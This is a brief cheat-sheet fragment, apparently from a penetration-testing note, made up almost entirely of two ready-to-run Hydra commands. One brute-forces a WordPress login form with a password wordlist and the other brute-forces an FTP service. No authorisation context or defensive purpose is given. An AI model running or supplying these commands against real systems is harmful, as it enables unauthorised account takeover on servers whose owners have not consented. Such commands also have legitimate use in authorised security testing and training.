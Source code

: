 				Wordpress Login Page
hydra -l user -P Wordlist IP -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'

				FTP
hydra -l admin -P password.txt -vV  IP ftp